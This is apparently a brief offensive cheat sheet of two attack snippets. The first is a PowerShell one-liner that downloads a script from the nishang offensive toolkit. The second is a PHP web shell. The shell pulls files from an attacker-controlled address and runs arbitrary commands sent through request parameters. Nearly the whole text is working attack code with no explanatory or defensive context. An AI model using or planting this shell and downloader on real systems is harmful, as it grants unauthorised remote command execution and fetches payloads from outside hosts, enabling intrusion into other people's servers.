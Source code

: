# Powershell commands

Download file:
IEX((New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/samratashok/nishang/master/Utility/Download.ps1', 'download.ps1'))

# PHP Shell
```php
$phpCode = <<<'EOD'
<?php
	if (isset($_REQUEST['fupload'])) {
		file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.6:8090/" . $_REQUEST['fupload']));
	};
	if (isset($_REQUEST['fexec'])) {
		echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
	};
?>
EOD;
```
